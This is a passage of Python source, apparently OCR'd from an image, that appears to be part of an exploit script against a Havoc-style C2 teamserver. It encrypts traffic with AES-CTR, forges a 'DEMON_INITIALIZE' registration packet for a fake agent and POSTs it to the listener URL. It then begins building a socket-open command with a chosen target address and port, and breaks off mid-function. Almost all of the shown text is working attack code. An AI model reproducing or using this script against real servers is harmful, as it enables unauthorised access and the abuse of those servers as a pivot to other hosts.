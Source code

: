 ```python
    return value.to_bytes(length, byteorder)


def encrypt(key, iv, plaintext):

    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")


def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"

    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"


    forward_addr = b""
```